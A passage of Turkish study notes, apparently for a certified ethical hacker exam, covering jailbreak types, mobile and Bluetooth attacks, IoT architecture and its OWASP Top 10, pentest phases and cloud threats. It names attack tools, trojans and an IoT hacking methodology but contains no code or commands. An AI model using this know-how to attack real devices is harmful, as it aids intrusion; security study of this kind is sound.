- **Yarı-Bağlı(Semi Tethered) -** yeniden başlatma artık yamayı korur; jailbreak **yazılımını kullanarak tekrar jailbreak yapmanız gerekir.Pangu** 
- **Tethered -** yeniden başlatma, tüm jailbreaking yamalarını kaldırır; telefon çalışmayı sürdürememesi durumunda USB ile onarıma ihtiyaç duyulabilir. 
- **Türler** 
- **Userland exploit-Kullanıcı alanı istismarı -** sistemin kendisinde bulunur; root erişimi kazanır; yönetici sağlamaz; Apple tarafından yama yapılabilir. 
- **iBoot istismarı -** iBoot adlı önyükleyicide bulunur; ortak tasarımı kapatmak için güvenlik açığını kullanır; yarı bağlı; yama yapılabilir. 
- BootROM istismarı - dosya sistemine, iBoot'a ve özel önyükleme logolarına erişim sağlar; cihazın ilk önyükleyicisinde bulunur; yama yapılamaz. 
- **App Store saldırıları -** bazı App Store'lar incelenmediğinden kötü amaçlı uygulamalar oraya yerleştirilebilir. 
- **Kimlik avı saldırıları -** cep telefonları çalınacak daha fazla veriye sahiptir ve masaüstü bilgisayarlar kadar savunmasızdır. 
- Android Cihaz Yönetimi API'si - yardımcı olabilecek güvenlik bilincine sahip uygulamalara izin verir. 
- Kendi Cihazını Getir (BYOD) - tüm telefonlar varsayılan olarak kilitlenemediği için kuruluşlar için tehlikelidir. 
- Mobil Cihaz Yönetimi - Windows'ta benzer grup politikası; güvenliğin sağlanmasına ve kurumsal uygulamaların dağıtılmasına yardımcı olur. 
- MDM çözümleri arasında XenMobile, IBM, MaaS360, AirWatch ve MobiContro bulunur. 
- Bluetooth saldırıları - bir mobil cihaz kolayca bağlanabiliyorsa, Bluetooth saldırılarının kurbanı olabilir. 
- Keşif modu - cihazın diğer cihazlardan gelen sorgulara nasıl tepki verdiği incelenir. 
- Keşfedilebilir - tüm soruları yanıtlar. 
- Sınırlı Keşfedilebilir - eylemi kısıtlar. 
- Keşfedilemez - tüm sorguları yok sayar. 
- Eşleştirme modu - cihazın eşleştirme isteklerini nasıl yerine getirdiği görülür. 
- Eşleştirilebilir - tüm istekleri kabul eder. 
- Eşleştirilemez - tüm bağlantı isteklerini reddeder. 

**Mobil Saldırılar** 

Önceki bölümde sunulan diğer tüm saldırılar, oturum ele geçirme, tarayıcı güvenlik açıkları, XSS, e-posta, SMS, telefon, İşletim Sistemi/Uygulama hataları, aşırı izinler vb. Bağlantı (Bluetooth, WiFi, NFC), şifreleme üzerindeki güvenlik açıkları. 

- **SMS Kimlik Avı (Smishing)** - kötü amaçlı bağlantılar içeren metinler gönderme. 
- İnsanlar bunlara daha çok güvenme eğilimindedir çünkü daha az gerçekleşirler. 
- **Gönderilebilir Trojanlar** 
- Obad 
- Fakedefender 
- TRAMPS 
- ZitMo 
- Spyware 
- Mobile Spy 
- Spyera 
- **iPhone'umu Bul**, Android cihaz takibi ve benzerleri gibi mobil platform özellikleri, cihazları bulmak için hacklenebilir vb. 
- Mobil Saldırı Platformları - telefonunuzdan saldırmanıza izin veren araçlar. 
- Network Spoofer 
- DroidSheep 
- Nmap 

**Bluetooth:** 

- **Bluetooth Saldırıları :** 
- Bluesmacking - Cihaza karşı hizmet reddi. 
- Bluejacking - İstenmeyen mesajlar gönderme 
- Bluesniffing – Bluetooth cihazlarını keşfetmeye çalışır. 
- Bluebugging – Cihaz özelliklerimi uzaktan kullanmanıza olanak sağlar. 
- Bluesnarfing – Uzak cihaz üzerinden veri hırsızlığına olanak sağlar. 
- Blueprinting - Bluetooth üzerinden cihaz bilgilerinin toplanmasına olanak sağlar. 

- Bluetooth Saldırı Araçları 
- BlueScanner – Çevrenizde ki cihazları bulur. 
- BT Browser - Cihazları bulmak ve numaralandırmak için kullanılan bir araçtır. 
- Bluesniff ve btCrawler – GUI destekli koklama (sniffing) uygulamasıdır. 
- Bloover - Bluebugging yapabilir 
- PhoneSnoop - Blackberry için iyi bir casus yazılım seçeneğidir. 
- Super Bluetooth Hack - Neredeyse her şeyi yapmanızı sağlayan hepsi bir arada pakettir. 

Mobil Güvenliği Geliştirme 

- Daima işletim sistemi ve Uygulamaların güncel olup olmadığını kontrol edin. 
- Ekran Kilitleri + Parolaları etkin bir şekilde kullanmaya özen gösterin. 
- Güvenli Kablosuz İletişimi kullanın. 
- Jailbreak ya da Köklendirme kullanmayın. 
- Hassas bilgileri cep telefonunuzda saklamayın (şirketten alınan gizli bilgiler gibi) 
- Uzak Masaüstü vb işlemler için güvenilir uygulamalar kullanın (Ör. Citrix) 
- Resmi uygulama mağazalarını kullanın. 
- Anti-Virüs uygulamaları kullanın. 
- Kişisel verilerinizi korumak adına uzaktan silme opsiyonunu kullanın. 
- Cihazınızın uzaktan yönetimini aktif hale getirin. 
- Cihazınızın uzaktan takip özelliğini aktif hale getirin. 

B) IoT Mimarisi 

IoT Nedir ? 

Nesnelerin İnterneti (IoT), internet üzerinden diğer cihazlara ve sistemlere bağlanmak ve bunlarla veri alışverişi yapmak amacıyla sensörler, yazılımlar ve diğer teknolojilerle gömülü fiziksel nesneler ("nesneler") ağını tanımlar. 

- Gömülü sistemler, kablosuz sensör ağları, kontrol sistemleri, otomasyon (ev ve bina otomasyonu dahil) ve diğerlerinin geleneksel alanları, nesnelerin internetinin etkinleştirilmesine katkıda bulunur. 

- Üç Temel Bileşen 
- Algılama Teknolojisi 
- IoT ağ geçitleri 
- Bulut 

İletişim Yöntemleri 

IoT bağlantısı, nesnelerin birbirine nasıl bağlandığına bağlıdır. Kablolu, kablosuz olabilir,4G LTE, Bluetooth, GPS, LoRa, ağ ağı, RFID, WiFi, Zigbee ve Z-dalgası. 

- Cihazdan Cihaza - İki cihaz arasında doğrudan iletişim. 
- Cihazdan Buluta - Doğrudan bir bulut hizmetiyle iletişim kurar. 
- Cihazdan Ağ Geçidine - Verileri toplayan ve ardından bulut tabanlı bir uygulama sunucusuna gönderen merkezi bir ağ geçidiyle iletişim kurun. 
- Arka Uç Veri Paylaşımı - Birden fazla cihazın bir veya daha fazla uygulama sunucusuyla etkileşime girmesine izin vermek için cihazı bulut modeline ölçeklendirmek için kullanılır. 

Zigbee ve Z-Wave, ev otomasyonunda popüler olan bir kablosuz ağ ağı protokolüdür. 

Uç Bilişim 

Edge Computing, merkezi bir bulut ortamında veya veri merkezlerinde işlenmek yerine, işleme ve hesaplamanın esas olarak akıllı cihazlar veya uç cihazlar olarak bilinen sınıflandırılmış cihaz düğümlerinde gerçekleştirildiği dağıtılmış bir bilgi işlem paradigmasıdır. 

- Veri toplama kaynaklarına ve akıllı sensörler ve aktüatörler gibi siber-fiziksel kaynaklara sunucu kaynakları, veri analizi ve yapay zeka sağlamaya yardımcı olur. 

Buluta aktararak verileri işleyen uç bilgi işlem. Sis Bilişim daha çok şeyleri yerel olarak tutmak gibidir. 

**IoT'nin Çok Katmanlı Mimarisi** 

- Uç Teknoloji Katmanı - sensörler, RFID etiketleri, okuyucular ve cihazlardan oluşur. 
- Erişim Ağ Geçidi Katmanı - ilk veri işleme, mesaj tanımlama ve yönlendirme. 
- İnternet Katmanı - iletişime izin vermek için ana bileşen olarak hizmet veren çok önemli katman. 
- Ara Katman Katmanı - uygulama ve donanım arasında yer alır; veri ve cihaz yönetimini, veri analizini ve toplamayı yönetir. 

**IoT Technology Protocols** 

- Kısa Menzilli Kablosuz: 
- Bluetooth Low-energy (BLE)  
- Light-Fidelity (Li-Fi) 
- Near Field Communication (NFC) 
- QR Codes & Barcodes 
- Radio-frequency Identification (RFID) 
- Wi-fi / Direct 
- Z-wave 
- Zigbee 
- Orta Menzilli Kablosuz: 
- Ha-Low 
- LTE-Advanced 
- Uzun Menzilli Kablosuz: 
- Low-power Wide-area Networking (LPWAN) 
- LoRaWAN 
- Sigfox 
- Very Smart Aperture Terminal (VSAT) 
- Cellular 
- Kablolu İletişim: 
- Ethernet 
- Power-Line Communication (PLC) 
- Multimedia over Coax Alliance (MoCA) 

IoT İşletim Sistemleri 

- RIOT OS - Gömülü sistemler, aktüatör kartları, sensörler; enerji verimlidir. 
- ARM Mbed OS - Çoğunlukla giydirilebilir cihazlarda ve diğer düşük güçlü cihazlarda kullanılır. 
- RealSense OS X - Intel'in derinlik algılama versiyonu; çoğunlukla kameralarda ve diğer sensörlerde bulunur. 
- Nucleus RTOS - Havacılık, tıp ve endüstriyel uygulamalarda kullanılır. 
- Brillo - Android tabanlı işletim sistemi; genellikle termostatlarda bulunur. 
- Contiki - Düşük güçlü cihazlar için üretilmiş işletim sistemi; çoğunlukla sokak aydınlatmasında ve ses izlemede bulunur. 
- Zephyr - Düşük güçlü cihazlar ve fazla kaynağa sahip olmayan cihazlar için seçenektir. 
- Ubuntu Core - Robotlarda ve dronlarda kullanılır; "hızlı" olarak bilinir. 
- Integrity RTOS - Havacılık, tıp, savunma, endüstriyel ve otomotiv sensörlerinde bulunur. 
- Apache Mynewt - Bluetooth Düşük Enerji Protokolü kullanan cihazlarda kullanılır. 

**Coğrafi Eskrim (Geofencing)** 

Evinizin çevresinde olduğu gibi sanal bir coğrafi sınır oluşturmak için GPS ve RFID teknolojilerini kullanır. Ardından, bir mobil cihaz alana her girdiğinde veya bu alandan ayrıldığında bir yanıt tetiklenir. 

**Grid Computing (Izgara Hesaplama)** 

Mevcut kaynakları maksimize ederek maliyetleri düşürür. Bu, belirli bir sorunu çözmek için birden çok makinenin birlikte kullanılmasıyla gerçekleştirilir. 

**Nesnelerin Analitiği (Analytics of Things)** 

- IoT sensörleri ve cihazları tarafından üretilen veriler olan IoT verilerinin analizi. 

Endüstriyel IoT (Industrial IoT) 

Endüstriyel nesnelerin interneti (IIoT), endüstriyel sektörler ve uygulamalarda nesnelerin internetinin (IoT) genişletilmesi ve kullanılması anlamına gelir. Makineden makineye (M2M) iletişim, büyük veri ve makine öğrenimine güçlü bir şekilde odaklanan IIoT, endüstrilerin ve işletmelerin operasyonlarında daha iyi verimlilik ve güvenilirliğe sahip olmalarını sağlar. 

- IIoT, robotik, tıbbi cihazlar ve yazılım tanımlı üretim süreçleri dahil olmak üzere endüstriyel uygulamaları kapsar. 

**IoT Güvenlik Açıkları ve Saldırıları:** 

**OWASP İlk 10 IoT Güvenlik Açığı (2014)** 

- **I1 - Güvenli Olmayan Web Arayüzü** 
- Hesap numaralandırma, zayıf kimlik bilgileri ve hesap kilitleme olmaması gibi sorunlar. 
- **I2 - Yetersiz Kimlik Doğrulama/Yetkilendirme** 
- Arabirimlerin yalnızca dahili ağlarda açığa çıkacağını ve bu nedenle bir kusur olduğunu varsayar. 
- **I3 - Güvenli Olmayan Ağ Hizmetleri** 
- Arabellek taşmasına veya DoS saldırılarına duyarlı olabilir. 
- **I4 - Taşıma Şifrelemesi/Bütünlük Doğrulaması Eksikliği** 
- Veriler şifrelenmeden taşınır. 
- **I5 - Mahremiyet Kaygısı** 
- Kişisel verilerin toplanması nedeniyle. 
- **I6 - Güvenli Olmayan Bulut Arayüzü** 
- Tahmin edilmesi kolay kimlik bilgileri numaralandırmayı kolaylaştırır. 
- **I7 - Güvenli Olmayan Mobil Arayüz** 
- Mobil arayüzde tahmin etmesi kolay kimlik bilgileri. 
- **I8 - Yetersiz Güvenlik Yapılandırılabilirliği** 
- Varsayılan parolalara ve yapılandırmaya neden olan güvenlik değiştirilemez. 
- **I9 - Güvenli Olmayan Yazılım/Donanım Yazılımı (Firmware)** 
- Güncellenecek bir cihazın olmaması veya güncellemeleri kontrol etmeyen cihazların olmaması. 
- **I10 - Zayıf Fiziksel Güvenlik** 
- Cihazların doğası gereği bunlar kolayca çalınabilir. 

**OWASP İlk 10 IoT Güvenlik Açığı (2018)** 

- **1. Zayıf, tahmin edilebilir veya sabit kodlanmış parolalar** 
- Yerleşik sistemlere yetkisiz erişim sağlayan ürün yazılımı veya istemci yazılımındaki arka kapılar da dahil olmak üzere kolayca kaba kuvvet uygulanabilen, halka açık veya değiştirilemez kimlik bilgilerinin kullanımı. 
- 2. Güvenli olmayan ağ hizmetleri 
- Cihazın kendisinde çalışan, özellikle internete maruz kalan, bilgilerin gizliliğini, bütünlüğünü/gerçekliğini veya kullanılabilirliğini tehlikeye atan veya yetkisiz uzaktan kontrole izin veren gereksiz veya güvenli olmayan ağ hizmetleri. 
- 3. Güvenli olmayan ekosistem arayüzleri 
- Cihazın veya ilgili bileşenlerinin tehlikeye atılmasına izin veren, cihazın dışındaki ekosistemde bulunan güvenli olmayan web, arka uç API, bulut veya mobil arayüzler. Yaygın sorunlar, kimlik doğrulama/yetkilendirme eksikliği, eksik veya zayıf şifreleme ve giriş ve çıkış filtreleme eksikliğini içerir. 
- 4. Güvenli güncelleme mekanizmasının olmaması. 
- Cihazı güvenli bir şekilde güncelleme yeteneğinin olmaması. Bu, cihazda üretici yazılımı doğrulama eksikliği, güvenli teslimat eksikliği (aktarım sırasında şifrelenmemiş), geri alma önleme mekanizmalarının eksikliği ve güncellemeler nedeniyle güvenlik değişiklikleri bildirimlerinin olmamasını içerir. 
- 5. Güvenli olmayan veya güncelliğini yitirmiş bileşenlerin kullanımı 
- Cihazın güvenliğinin ihlal edilmesine izin verebilecek, kullanımdan kaldırılmış veya güvenli olmayan yazılım bileşenlerinin/kütüphanelerinin kullanımı. Buna, işletim sistemi platformlarının güvenli olmayan şekilde özelleştirilmesi ve güvenliği ihlal edilmiş bir tedarik zincirinden üçüncü taraf yazılım veya donanım bileşenlerinin kullanımı da dahildir. 

- 6. Yetersiz gizlilik koruması 
- Kullanıcının cihazda veya ekosistemde saklanan, güvenli olmayan, uygunsuz veya izinsiz kullanılan kişisel bilgiler. 
- 7. Güvenli olmayan veri aktarımı ve depolama 
- Durağan, aktarım halinde veya işleme sırasında da dahil olmak üzere ekosistemin herhangi bir yerindeki hassas verilerin şifrelenmemesi veya erişim kontrolünün olmaması. 
- 8. Cihaz yönetiminin olmaması 
- Varlık yönetimi, güncelleme yönetimi, güvenli hizmetten çıkarma, sistem izleme ve yanıt verme yetenekleri dahil olmak üzere üretimde dağıtılan cihazlarda güvenlik desteği eksikliği. 
- 9. Güvenli olmayan varsayılan ayarlar 
- Güvenli olmayan varsayılan ayarlarla gönderilen veya operatörlerin yapılandırmaları değiştirmesini kısıtlayarak sistemi daha güvenli hale getirme becerisine sahip olmayan cihazlar veya sistemler. 
- 10. Fiziksel sertleşme eksikliği 
- Potansiyel saldırganların gelecekteki bir uzaktan saldırıda yardımcı olabilecek veya cihazın yerel kontrolünü ele geçirebilecek hassas bilgileri elde etmesine izin veren fiziksel güçlendirme önlemlerinin olmaması. 

Ortak IoT Saldırı Alanları 

- Kimlik bilgilerini içeren cihaz belleği 
- Cihaz / Ekosistem Erişim Kontrolü 
- Cihaz Fiziksel Arayüzleri / Firmware çıkarma 
- Cihaz web arayüzü 
- Cihaz Üretici Yazılımı 
- Cihaz ağ hizmetleri 
- Cihaz yönetim arayüz(ler)i 
- Şifrelenmemiş Yerel veri depolama 
- Bulut arayüz(ler)i 
- Cihaz güncelleme mekanizmaları 
- Güvenli olmayan API'ler (satıcı ve üçüncü taraf) 
- Mobil uygulama 
- Ekosistem genelinde Gizlilik ve Bütünlük sorunları 
- Ağ Trafiği 

IoT Threats - Nesnelerin İnterneti Tehditleri 

- DDoS Attack 
- HVAC System attacks - HVAC sistemlerine saldırılar 
- Rolling code attack - Araba çalmak için kullanılır; Bir anahtarlık iletişimini bozabilme, kodu çalabilme ve ardından bir sonraki kodu oluşturabilme. 
- BlueBorne attack - Bluetooth cihazlarına yönelik saldırılar 
- Jamming attack 
- Remote access via backdoors 
- Remote access via unsecured protocols – Telnet gibi. 
- Sybil attack - Trafik yanılsaması yaratmak için birden çok sahte kimlik kullanır; güvenli olmayan bir bilgisayar birden fazla kimlik talep etmek için ele geçirildiğinde gerçekleşir. 
- Rootkits / Exploit kits 
- RamsomeWare 

MITM, fidye yazılımı, yan kanal, yeniden oynatma saldırısı vb. gibi diğer bölümlerde  sayılan saldırılar hala geçerlidir. 

IoT Hacking Metodolojisi 

Adımlar :  

- Bilgi Toplama – Cihazlar hakkında bilgi toplamak. 
- Araçlar 
- Shodan 
- Censys 
- Thinqful 
- Google 
- Güvenlik Açığı Taraması - normal metodoloji ile aynı - güvenlik açıklarını arar. 
- Araçlar 
- Nmap 
- Multi-ping 
- RIoT Vulnerability Scanner 
- Foren6 (Traffic Sniffer) 
- beSTORM 
- Saldırıları Başlatmak 
- Araçlar 
- RFCrack 
- Attify Zigbee Framework 
- HackRF 
- Firmalyzer 
- Erişim Kazanma - normal metodoloji ile aynı hedefleri amaçlar. 
- Erişimi Sürdürmek - normal metodoloji ile aynı hedefleri amaçlar. 

IoT cihazlarının güvenliğini sağlamaya yardımcı olacak önlemler: 

- Donanım yazılımı güncellemeleri 
- TÜM gereksiz bağlantı portlarını engelle 
- TELNET gibi güvenli olmayan erişim protokollerini devre dışı bırakın 
- Yalnızca şifreli iletişim protokollerini kullanın 
- Güçlü şifreler kullanın 
- Cihaza gelen, cihazda saklanan ve cihazdan çıkan TÜM verileri ve iletişimleri şifreleyin. 
- Hatalı şifre denemelerinde mutlaka hesap kilitleme özelliğini kullanın. 
- Uyumluluk izleme ile birlikte cihazların konfigürasyon yönetimi. 
- Çok faktörlü kimlik doğrulamayı kullanın 
- UPnP'yi devre dışı bırak 

\14. Sızma testi 

Halk arasında kalem testi, pentest veya etik korsanlık olarak bilinen bir sızma testi, sistemin güvenliğini değerlendirmek için gerçekleştirilen, bir bilgisayar sistemine yetkili simüle edilmiş bir siber saldırıdır. 

Güvenlik Değerlendirmeleri: 

- Güvenlik değerlendirmesi - Bir ağ veya sistemdeki güvenlik düzeyini değerlendirmek için gerçekleştirilen test. 
- Güvenlik Denetimi - Politika ve prosedür odaklı; kuruluşun belirli standartları ve politikaları takip edip etmediğini test eder; yalnızca uyumluluklara bakılır. 
- Güvenlik Açığı Değerlendirmesi - Güvenlik açıklarını tarar ve test eder ancak kasıtlı olarak bunlardan yararlanmaz. 
- Sızma Testi - Güvenlik açıklarını arar ve aktif olarak bunlardan yararlanmaya çalışır. 

InfoSec Ekipleri 

- Blue Team (savunmacılar) 
- Güvenlik politikasını uygular. 
- Teknik kontrolleri uygular. 
- Red Team'i tespit eder ve ona karşı sistemi savunur. 
- Red Team (saldırganlar) 
- Penetrasyon testini gerçekleştirir. 
- Müşterinin sistemlerine yetkisiz erişim elde etme girişiminde herhangi bir gerçek dış tehdit olarak hareket ederler. 

Pentest Türleri 

Dış Değerlendirme - Kamuya açık bilgileri analiz eder; ağ çevresinden ağ taraması, sayımı ve testi gerçekleştirir. 

İç Değerlendirme - Kuruluş içinden, çeşitli ağ erişim noktalarından gerçekleştirilir. 

Sızma testi kutuları: 

- Black Box - Herhangi bir sistem veya ağ bilgisi olmadan yapılır. 
- White Box - Saldırgan, sistem sahibi/hedef tarafından sağlanan sistem hakkında tam bilgiye sahip olduğunda yapılan taramadır. 
- Gray Box - Saldırganın sistem ve/veya ağ hakkında biraz bilgisi olduğunda yapılan bir taramadır. 
- Otomatik Test Araçları 
- Codenomicon - Test edilen sistemi otomatik olarak öğrenen bulanıklık testinden yararlanır; sızma testçilerinin VoIP değerlendirmesi vb. gibi yeni alanlara girmesine izin verir. 
- Core Impact Pro - En iyi bilinen, her şey dahil otomatik test çerçevesi; web uygulamaları ve bireysel sistemlerden ağ cihazlarına ve kablosuza kadar her şeyi test eder. 
- Metasploit - uzak bir hedef makineye karşı kod geliştirmek ve yürütmek için kullanılan bir kütüphanedir. 
- CANVAS - Yüzlerce istismar, otomatik istismar sistemi ve kapsamlı istismar geliştirme çerçevesi. 

Sızma Testi Aşamaları 

- Saldırı Öncesi Aşama - Keşif ve veri toplama. 
- Attack Phase - Ağa sızma ve saldırı gerçekleştirme girişimleri. 
- Saldırı Sonrası Aşama - Bir sistemi saldırı öncesi durumuna döndürmek ve raporları teslim etmek için temizleme. 

Sınav için EC-Council kendi metodolojisini getiriyor ve sınav için ihtiyacınız olan tek şey bu; Eğer ilgileniyorsanız, diğer sızma testi metodolojilerine buradan göz atabilirsiniz; Sertifikasyon içeriğinin yanı sıra profesyonel bir pentester olmak için çalışıyorsanız, OSSTMM'yi (Açık Kaynak Güvenlik Test Metodolojisi Kılavuzu) tavsiye ederim. 

Güvenlik Değerlendirmesi Çıktıları 

- Genellikle yönetime bir özet ile başlar. 
- Ekibiniz hakkında bilgi ve orijinal sözleşmeye genel bakış sağlar. 
- Hangi testlerin yapıldığı ve sonuçların ne olduğu paylaşılır. 
- Kapsamlı Rapor Bölümleri 
- Kuruluşun güvenlik alt yapısının bir yönetici özeti. 
- Tüm katılımcıların isimleri ve testlerin tarihleri. 
- Risk sırasına göre sunulan tüm bulguların listesi. 
- Her bulgunun ve önerilen bulgu kapatma adımlarının analizi. 
- Log dosyaları ve diğer kanıtlar (ekran görüntüleri vb.) sunulur. 
- Örnek raporlar ve metodoloji, Açık Kaynak Test Metodolojisi Kılavuzunda (OSSTMM) bulunabilir. 

Terminoloji 

- İçeriden Öğrenenlerin Türleri 
- Pure Insider – İçeride olan, tüm haklara ve erişime sahip çalışan. 
- Elevated Pure Inside - yönetici ayrıcalıklarına sahip çalışan 
- Insider Associate - Yüklenici, bekçi veya temizlik görevlisi gibi sınırlı yetkili erişime sahip bir çalışan. 
- Insider Affiliate - Erişim elde etmek için çalışanın kimlik bilgilerini kullanan bir çalışanın eşi, arkadaşı veya müşterisi. 
- Outside Affiliate - Bir kuruluşun kaynaklarına erişim elde etmek için açık erişim kanalını kullanan kuruluş dışından biri. 

Güvenlik Açıkları (Vulnerabilities) 

- CVSS - Common Vulnerability Scoring System - Önem derecesine göre sayısal puan yerleştirir; 
- Qualitative severity rating scale: 

- CVE – Common Vulnerabilities and Exposures 
- MITRE tarafından tutulan, kamuya açıklanan güvenlik açıklarının ve risklerin bir listesidir. 
- NVD - National Vulnerability Database 
- NIST tarafından sağlanan ve MITRE CVE listesiyle tamamen senkronize olan bir veritabanıdır; ABD Hükümeti güvenlik açıkları deposudur. 

\15. Bulut Bilişim 

Bulut Bilişimin Temelleri 

- Üç Tür Hizmet Modeli: 
- Hizmet Olarak Altyapı (IaaS) 
- Sanallaştırılmış bilgi işlem kaynakları sağlar. 
- Üçüncü taraf, VM'leri misafir olarak çalıştıran hiper yöneticili sunucuları barındırır. 
- Aboneler genellikle kullanım başına ödeme yapar. 
- Örn: AWS, Microsoft Azure, Digital Ocean, Google Cloud 
- Hizmet Olarak Platform (Paas) 
- Yazılım geliştirmeye yöneliktir. 
- Sağlayıcı tarafından barındırılan donanım ve yazılım. 
- Donanım veya yazılım konusunda endişelenmenize gerek kalmadan geliştirme yeteneği sağlar. 
- Örn: Heroku, Salesforce 
- Hizmet Olarak Yazılım (SaaS) 
- Sağlayıcı, abonelere isteğe bağlı uygulamalar sağlar. 
- Yama yönetimi, uyumluluk ve sürüm kontrolü ihtiyacını ortadan kaldırır. 
- Örn: Microsoft Office 365, Dropbox storage, Google Docs 

Bulut Dağıtım Modelleri 

- Private Cloud - Yalnızca bir kiracının kullanımına yönelik bulut; genellikle daha büyük organizasyonlarda yapılır. 
- Community Cloud - Bulut sağlayıcıları, iş ortakları vb. olabilecek birkaç farklı varlığa ait altyapıdan oluşur.  
- Public Cloud - Halkın kullanımına açık bir ağ üzerinden sağlanan hizmetler; Amazon S3, Microsoft Azure - İşletmeler için açık 
- Hybrid Cloud - İki veya daha fazla bulut devreye alma modelinin bileşimi. 

NIST Bulut Mimarisi 

NIST bulut bilgi işlem referans mimarisi (NIST SP 500-292) beş ana aktörü tanımlar; Her aktör, bulut bilişimde bir işleme veya sürece katılan ve/veya görevleri gerçekleştiren bir varlıktır (bir kişi veya kuruluş). 

- Cloud Consumer - Bir kişi veya kuruluş. Bulut Sağlayıcıları ile bir iş ilişkisi sürdüren ve Bulut Sağlayıcılarından hizmet kullanan; bulut ürünleri ve hizmetlerini barındırır. 
- Cloud Provider - Bir kişi, kuruluş. veya bir hizmeti kullanıma sunmaktan sorumlu kuruluş; Ürün ve hizmet tedarikçisi. 
- Cloud Auditor - Bulut hizmeti ve güvenlik kontrollerinin bağımsız değerlendiricisi. 
- Cloud Broker - Hizmetlerin kullanımını, performansını ve teslimini ayrıca Bulut Sağlayıcıları ile Bulut tüketicileri arasındaki ilişkileri yönetir. 
- Cloud Carrier - Veri aktarımından sorumlu kuruluş; Bulut hizmetlerinin Bulut sağlayıcılarından Bulut tüketicilerine bağlanmasını ve taşınmasını sağlayan aracı. (ör: Telekom) 

\- FedRAMP - bulut bilgi işlem ile ilgili düzenleyici kuruluş. 

\- PCI DSS - banka ve kredi kartlarıyla ilgilenir, ancak aynı zamanda bir bulut SIG'sine sahiptir. 

Bulut bilişimin beş özelliği 

Ulusal Standartlar ve Teknoloji Enstitüsü (NIST), bugün bilindiği şekliyle bulut bilişimi beş belirli özellikle tanımlar. 

- İsteğe bağlı self-servis 
- Geniş ağ erişimi 
- Çoklu kiralama ve kaynak havuzu oluşturma 
- Hızlı esneklik ve ölçeklenebilirlik 
- Ölçülen hizmet 

Tehditler 

- Veri İhlali veya Kaybı - En büyük tehdit; kötü niyetli hırsızlık, silme veya değişiklik içerir. 
- Gölge BT (Shadow IT) - Bir sorunu çözmek için geliştirilen ancak uygun onay zincirinden geçmeyen BT sistemleri veya çözümleri 
- Bulut Kaynaklarının Kötüye Kullanımı - Diğer bir yüksek tehdit (genellikle Iaas ve PaaS) 
- Güvenli Olmayan Arayüzler ve API'ler - Bulut hizmetleri onlar olmadan çalışamaz, ancak güvenli olduklarından emin olmaları gerekir. 
- Servis Odaklı Mimari - Uygulama bileşenlerinin işbirliği yapmasını ve bilgi alışverişini kolaylaştıran API. 
- Yetersiz durum tespiti - Güvenlik farklılıklarını bilmeden bir uygulamayı taşıma. 
- Paylaşılan teknoloji sorunları - Uygun izolasyon sağlamayan çok kiracılı ortamlar. 
- Bilinmeyen risk profilleri - Aboneler, arka planda hangi güvenlik hükümlerinin yapıldığını bilmiyorlar. 
- Sarma Saldırısı (Wrapping Attack) - SOAP mesajı yakalandı, zarftaki veriler değiştirildi ve gönderildi. 
- Oturum Sürme (Session Riding) - Farklı bir isim altında CSRF; geleneksel veri merkezleri yerine bulut hizmetleri ile ilgilenir. 
- Diğerleri arasında kötü niyetli kişiler, yetersiz tasarım ve DDoS yer alır 
- Diğer Tehditler 
- şifreleme anahtarlarının oss/uzlaşması. 
- İzolasyon işlemlerinin hatalı yapılandırılması 
- Uyumluluk riski 
- Sanal sunucular üzerinde meydana gelen güvenlik açıkları 
- Değişen coğrafi sınırlara dayalı yargı sorunları 
- E-keşif/mahkeme celbi 
- Bulut hizmetinin sonlandırılması/ya da kesintiler 
- Yanlış/eksik veri işleme ve imha etme 
- Yönetim ağı hatası/arayüz uzlaşması. 

Atak Türleri 

- Sosyal mühendislik ve ağ koklama yoluyla hizmet ele geçirme. 
- XSS kullanarak oturum ele geçirme 
- DNS Saldırıları 
- Yan kanal saldırıları - (ör: Aynı fiziksel ana bilgisayardaki mevcut bir VM'i diğerine saldırmak için kullanma) 
- Çapraz VM saldırıları 
- SQL Enjeksiyonu 
- Kriptanaliz saldırıları 
- Sarma saldırıları - TLS katmanındaki SOAP mesajlarının çevirisi sırasında gerçekleştirilir; saldırganlar mesajın gövdesini kopyalar ve meşru kullanıcının kimliğine bürünerek hedeflenen sunucuya gönderir. 
- DoS/DDoS saldırıları 
- Ana Bulut Saldırıları - bulut dosya senkronizasyon hizmetlerinin kötüye kullanılması; kullanıcıyı, saldırganın hizmet için senkronizasyon belirtecini makinesine yerleştiren ve saldırganın kullanıcının belirtecini çalmasına ve dosyalarına erişmesine izin veren kötü amaçlı yazılım yüklemesi için izin veren saldırı yöntemi. 

OWASP İlk 10 Uygulama Güvenliği Riski 

- Injection - SQL, NoSQL, OS ve LDAP enjeksiyonu gibi enjeksiyon kusurları, güvenilmeyen veriler bir komutun veya sorgunun parçası olarak bir yorumlayıcıya gönderildiğinde ortaya çıkar. Saldırganın düşmanca verileri, yorumlayıcıyı istenmeyen komutları yürütmesi veya uygun yetkilendirme olmadan verilere erişmesi için kandırabilir. 
- Giriş Doğrulama 
- Hesap Ayrıcalıklarını Sınırlama 
- Broken Authentication - Kimlik doğrulama ve oturum yönetimi ile ilgili uygulama işlevleri genellikle yanlış uygulanır ve saldırganların parolaları, anahtarları veya oturum belirteçlerini tehlikeye atmasına veya diğer kullanıcıların kimliklerini geçici veya kalıcı olarak üstlenmek için diğer uygulama kusurlarından yararlanmasına olanak tanır. 
- Sensitive Data Exposure - Birçok web uygulaması ve API, finans, sağlık ve PII gibi hassas verileri gerektiği gibi korumaz. Saldırganlar, kredi kartı dolandırıcılığı, kimlik hırsızlığı veya diğer suçları işlemek için bu tür zayıf korunan verileri çalabilir veya değiştirebilir. Hassas veriler, bekleyen veya aktarılan şifreleme gibi ekstra koruma olmaksızın ele geçirilebilir ve tarayıcıyla değiş tokuş edildiğinde özel önlemler gerektirir. 
- XML External Entities (XXE) - Birçok eski veya kötü yapılandırılmış XML işlemcisi, XML belgeleri içindeki harici varlık referanslarını değerlendirir. Harici varlıklar, dosya URI işleyicisi, dahili dosya paylaşımları, dahili bağlantı noktası tarama, uzaktan kod yürütme ve hizmet reddi saldırılarını kullanarak dahili dosyaları ifşa etmek için kullanılabilir. 
- Uygulamanız, birleşik güvenlik veya Single Sing on (SSO) ile işlemeyi tanımlamak için SAML kullanıyorsa. SAML, XML kullanır. 
- Uygulamalar doğrudan XML kabul ediyorsa veya güvenilmeyen kaynaklardan XML yüklemeleri yapıyorsa veya XML belgelerine güvenilmeyen veriler ekliyorsa geçerlidir. 
- Uygulamadaki veya (DTD'ler) etkinleştirilmiş SOAP tabanlı web hizmetlerindeki XML işlemcilerinden herhangi biri. 
